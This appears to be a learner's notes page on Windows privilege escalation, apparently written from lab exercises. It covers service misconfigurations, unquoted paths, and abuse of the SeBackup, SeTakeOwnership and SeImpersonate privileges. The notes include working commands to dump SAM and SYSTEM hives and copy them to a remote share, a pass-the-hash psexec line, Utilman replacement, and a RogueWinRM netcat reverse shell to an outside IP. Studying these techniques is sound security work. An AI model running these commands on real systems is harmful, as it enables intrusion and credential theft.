



At this page we will be talking about the priviledge esclation techniques which I learn and encounter through my learning process.

## Service Exploitation

## Insecure Permissions on Service Executable

### Background

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially

### Requirements

If trying to esclate to higher priviledges we need to have the ```Modify/Full``` access on that executable, in order to make changes.
    
### Example

Hear i have a user **svcuser1**, where i am trying to elevate my access. In your secrniro it can be any user u are trying to elevate to.

#### Splinterware System Scheduler Service

```
C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1
```

```
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

The output for the command ```>caclusC:\PROGRA~2\SYSTEM~1\WService.exe```, we can see that we have a group named everyone and with **Modify** access.


If you have the secrino where you have a ```M/F``` access on a service's executable, and that service is running with under a  priviled user, u can replace it with your own executable leading to the execution of the replaced executable with priviled user access.


  Note do not try to stop/start the service as might trigger and, use -f exe-service as it can create a problem with just plain .exe executable


## Unquoted Service Paths

### Background

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, I mean that the path of the associated executable ```BINARY_PATH_NAME``` isn't properly quoted which account's for spaces on the command.

As an example, let's look at two different services  

```
Example 1
C:\> sc qc "vncserver"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: vncserver
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : VNC Server
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```


```
Example 2 
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```
When the SCM tries to execute the associated binary, a problem arises. Since there are spaces on the name of the EX2 "Disk Sorter Enterprise" folder, the command becomes ambiguous, and the SCM doesn't know which of the following you are trying to execute:

- C:\MyPrograms\Disk.exe rest ot its is taken as argument
- C:\MyPrograms\Disk Sorter.exe rest ot its is taken as argument
- C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe

As we can see it try to search for disk.exe & disk sorter.exe but we know the real service is disksrs.exe, on this situation what we can do is to place out own executable in Myprograms folder named as Disk.exe.

### Requirements

- Path of the associated executable ```BINARY_PATH_NAME``` isn't properly quoted properly.
- And user to create subdirectories and files, respectively.

### Example

#### Disk Sorter Enterprise Service

The above **Disk Sorter Enterprise** service we can see that it have the unquoted path which we eveuntally lead to searching for the paths 

- C:\MyPrograms\Disk.exe 
- C:\MyPrograms\Disk Sorter.exe 
- C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe

The main idea is hear to place a executable named as **Disk.exe** at path **C:\MyPrograms\Disk.exe** which will be executed first compared to the real one **disksrs.exe** 


  Hear **Disk.exe** is the payload.



## Insecure Service Permissions

### Background

If the permission of **service** is missconfigured which can allow u to modify the configuration of a service, Which in this case you will be able to **reconfigure** the **service**. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

To check for a service from the command line, you can use Accesschk from the sysinternals suite.

### Requirements

- Permission to reconfigure the specified service.
- SERVICE_ALL_ACCESS 

### Example

#### THMService

```
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
        
```

Here we can see that the ```BUILTIN\\Users``` group has the **SERVICE_ALL_ACCESS** permission, which means any user can reconfigure the service.

We will configure the service to run our own executable file specified at a path, Which can be done via.

```
C:\> sc.exe config <service_name> binPath= "path_to_your_evilexe_file" obj= LocalSystem
```

## Abusing SeBackup/SeRestore Privileges

### Background 

If a user has **SeBackup/SeRestore**  priviledge granted then this means the user is allowed to read and write to any file in the system, The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.



### Abusing

As studied in backgroung the user have the ability to backup **any** file in system without any **administrative privileges** we can backup the **system.hive** and **sam.hive** leading to NTLM hashes.

```
PS C:\tools> reg save hklm\system C:\tools\system.hive
The operation completed successfully.
PS C:\tools> reg save hklm\sam C:\tools\sam.hive
The operation completed successfully.
```
Copying hives.

```
PS C:\tools> copy .\system.hive \\192.168.205.012\public
PS C:\tools> copy .\sam.hive \\192.168.205.012\public
```

Dumping

 

Performing Pass-the-Hash attack.

```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.49.154.42
```



## Abusing SeTakeOwnership Privileges

### Background 

The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges

We'll abuse utilman.exe to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file.


### Abusing

Taking Ownership of Utilman.exe

```
C:\Windows\system32>takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WPRIVESC2\THMTakeOwnership".

C:\Windows\system32>
```

Granting Full Permissions


```
C:\Windows\system32>icacls.exe C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: C:\Windows\System32\Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```

Replacing original Utilman.exe with Evil.exe


```
C:\Windows\system32>copy cmd.exe Utilman.exe
Overwrite Utilman.exe? (Yes/No/All): Yes
        1 file(s) copied.
```
To trigger utilman, we will lock our screen from the start button:
And finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:


## Abusing SeImpersonate Privileges

### Background

These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

Impersonation is easily understood when you think about how an FTP server works. The FTP server must restrict users to only access the files they should be allowed to see.

Let's assume we have an FTP service running with user ftp. Without impersonation, if user Ann logs into the FTP server and tries to access her files, the FTP service would try to access them with its access token rather than Ann's.

And if SeImpersonate priviledge is set on FTP service, It would be able to access Ann's files, but not Bill's files because he FTP service can temporarily grab the access token of the user logging in and use it to perform any task on their behalf.

If the FTP service were compromised at some point, the attacker would immediately gain access to all of the folders to which the ftp user has access.

By using the tokens for loggin in users.


```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe 192.168.205.012 4554"
```
The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.


